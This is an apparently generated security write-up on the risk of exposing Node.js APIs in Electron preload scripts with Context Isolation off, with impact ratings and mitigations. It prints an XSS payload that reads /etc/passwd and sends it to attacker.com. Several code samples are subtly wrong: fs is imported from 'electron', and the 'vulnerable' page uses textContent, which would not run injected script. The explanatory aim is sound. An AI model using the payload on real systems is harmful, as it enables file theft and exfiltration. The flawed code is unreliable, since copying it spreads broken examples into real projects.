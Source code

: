 ## Deep Dive Analysis: Exposure of Node.js APIs in Preload Scripts (without Context Isolation)

**Introduction:**

This document provides a detailed analysis of the attack surface related to exposing Node.js APIs within preload scripts when Context Isolation is disabled in an Electron application. This configuration, while simplifying development in some scenarios, introduces significant security vulnerabilities by blurring the lines between the privileged Node.js environment and the potentially untrusted web content rendered in the browser window.

**Attack Surface Breakdown:**

**1. Mechanism of the Attack:**

* **Disabled Context Isolation:**  The core of this vulnerability lies in disabling Electron's Context Isolation feature (`contextIsolation: false` in `webPreferences`). This setting prevents the creation of separate JavaScript execution environments for the preload script and the rendered web page. Consequently, they share the same global scope (`window`).
* **Preload Script as a Bridge:** The preload script is designed to inject code into the renderer process *before* the web page loads. When Context Isolation is disabled, any variables or functions defined in the preload script, including access to Node.js APIs, become directly accessible from the webpage's JavaScript.
* **Exploitation via Web Content:** If the loaded web content contains a vulnerability, such as Cross-Site Scripting (XSS), an attacker can inject malicious JavaScript code. This injected code can then directly interact with the Node.js APIs exposed through the preload script.

**2. Electron's Role and Configuration:**

* **Flexibility vs. Security:** Electron provides developers with the option to disable Context Isolation for various reasons, including easier integration with legacy web applications or perceived simplification of inter-process communication (IPC). However, this flexibility comes at the cost of a weakened security posture.
* **Configuration Control:** The responsibility of enabling or disabling Context Isolation rests entirely with the application developer through the `webPreferences` configuration when creating `BrowserWindow` instances.
* **Lack of Default Security:**  While Electron has been pushing towards Context Isolation as the recommended and default setting, older applications or those intentionally configured otherwise remain vulnerable.

**3. Concrete Example Breakdown (fs Module):**

Let's dissect the provided example of exposing the `fs` module:

* **Preload Script (Vulnerable):**
  ```javascript
  const { contextBridge, ipcRenderer, fs } = require('electron');

  // Exposing fs directly to the window object (VULNERABLE!)
  window.fs = fs;
  ```

* **Web Page with XSS Vulnerability:** Imagine a scenario where user input is not properly sanitized and allows injecting JavaScript:
  ```html
  <p>Welcome, <span id="username"></span>!</p>
  <script>
    const username = new URLSearchParams(window.location.search).get('name');
    document.getElementById('username').textContent = username; // Potential XSS here
  </script>
  ```

* **Exploitation:** An attacker could craft a malicious URL:
  `your-electron-app://index.html?name=<script>window.fs.readFile('/etc/passwd', 'utf-8', (err, data) => { fetch('https://attacker.com/steal?data=' + encodeURIComponent(data)); });</script>`

* **Attack Flow:**
    1. The Electron application loads the malicious URL.
    2. The injected JavaScript in the URL is executed due to the XSS vulnerability.
    3. This injected script directly accesses `window.fs` (exposed from the preload script).
    4. It uses `fs.readFile` to read the contents of the `/etc/passwd` file (or any other accessible file).
    5. The file content is then exfiltrated to the attacker's server.

**4. Impact Assessment (Deep Dive):**

The impact of this vulnerability is indeed **High** due to the potential for significant damage:

* **Arbitrary File Access:** As demonstrated in the example, attackers can read sensitive local files, including configuration files, user data, application secrets, and even system files.
* **Code Execution:** Depending on the exposed Node.js APIs, attackers might be able to execute arbitrary code on the user's machine. For instance, exposing the `child_process` module could allow spawning processes.
* **Data Exfiltration:**  Attackers can steal sensitive data accessed through the exposed APIs.
* **Local Resource Manipulation:**  APIs like `fs` can be used to modify or delete local files, potentially leading to data loss or application malfunction.
* **Privilege Escalation:** If the Electron application runs with elevated privileges, the attacker can leverage the exposed APIs to perform actions with those elevated privileges.
* **Denial of Service:**  Attackers could potentially use exposed APIs to consume system resources, leading to a denial of service.
* **Circumvention of Security Measures:**  The exposed APIs bypass the security sandbox intended for web content, allowing attackers to circumvent browser-based security restrictions.
* **Reputation Damage:**  A successful attack exploiting this vulnerability can severely damage the reputation and trust associated with the application.

**5. Risk Severity Justification:**

The **High** risk severity is justified by the following factors:

* **Ease of Exploitation:**  Exploiting this vulnerability often relies on common web vulnerabilities like XSS, which are relatively prevalent. Once XSS is achieved, leveraging the exposed APIs is straightforward.
* **Significant Impact:**  The potential consequences, as outlined above, are severe and can have significant repercussions for users and the application provider.
* **Wide Applicability:** This vulnerability affects any Electron application that disables Context Isolation and exposes Node.js APIs in the preload script.
* **Difficult Detection:**  Identifying exploitation can be challenging as it might not leave obvious traces within the web application's logs.

**6. Detailed Mitigation Strategies:**

* **Enable Context Isolation (`contextIsolation: true`):** This is the **primary and most effective mitigation**. Enabling Context Isolation creates a secure boundary between the preload script and the web page. Instead of direct access, you must use the `contextBridge` API to selectively expose functions and variables to the renderer process in a controlled manner.
    * **Implementation:** Set `contextIsolation: true` in the `webPreferences` of your `BrowserWindow` configuration.
    * **Benefits:**  Completely isolates the Node.js environment, preventing direct access from the web page.
    * **Considerations:** Requires refactoring code that relies on direct access to preload script variables.

* **Minimize Node.js API Exposure (Even with Context Isolation):**  Even with Context Isolation enabled, it's crucial to follow the principle of least privilege. Only expose the absolutely necessary APIs and functionalities to the renderer process.
    * **Implementation:** Use `contextBridge.exposeInMainWorld` to selectively expose specific functions or objects. Avoid exposing entire modules like `fs` directly.
    * **Example (with Context Isolation):**
      ```javascript
      // preload.js
      const { contextBridge, ipcRenderer, fs } = require('electron');

      contextBridge.exposeInMainWorld('myAPI', {
        readFile: (filePath) => {
          // Implement strict validation here before using fs
          return fs.readFileSync(filePath, 'utf-8');
        }
      });
      ```
    * **Benefits:** Limits the attack surface even if a vulnerability exists in the exposed functionality.

* **Implement Strict Input Validation for Exposed APIs:**  Any data passed from the renderer process to the exposed Node.js APIs *must* be rigorously validated and sanitized on the Node.js side. This prevents attackers from manipulating the API calls for malicious purposes.
    * **Implementation:** Use techniques like:
        * **Whitelisting:**  Only allow specific, known good values.
        * **Regular Expressions:**  Validate input against expected patterns.
        * **Type Checking:** Ensure data is of the expected type.
        * **Path Sanitization:** Prevent path traversal attacks when dealing with file paths.
    * **Example (within the `readFile` function above):**
      ```javascript
      readFile: (filePath) => {
        if (!filePath.startsWith('/safe/directory/') || filePath.includes('..')) {
          throw new Error('Invalid file path');
        }
        return fs.readFileSync(filePath, 'utf-8');
      }
      ```
    * **Benefits:** Prevents attackers from exploiting the exposed APIs even if they gain access to them.

**7. Additional Security Considerations:**

* **Regular Security Audits and Penetration Testing:**  Proactively identify vulnerabilities in your application, including this specific attack surface.
* **Principle of Least Privilege (General Application Design):**  Apply this principle throughout the application development process, not just for API exposure.
* **Content Security Policy (CSP):** Implement a strong CSP to mitigate XSS vulnerabilities that could be used to exploit this attack surface.
* **Secure Coding Practices:**  Follow secure coding guidelines to minimize the introduction of vulnerabilities in both the main process and the renderer process.
* **Dependency Management:** Regularly update and audit your application's dependencies, including Electron itself, to patch known security vulnerabilities.

**Conclusion:**

Exposing Node.js APIs in preload scripts without Context Isolation presents a significant security risk to Electron applications. The potential for arbitrary file access, code execution, and data exfiltration makes this a high-severity vulnerability. Enabling Context Isolation and meticulously controlling API exposure are crucial mitigation strategies. By understanding the mechanics of this attack surface and implementing robust security measures, development teams can significantly enhance the security posture of their Electron applications and protect their users from potential harm.
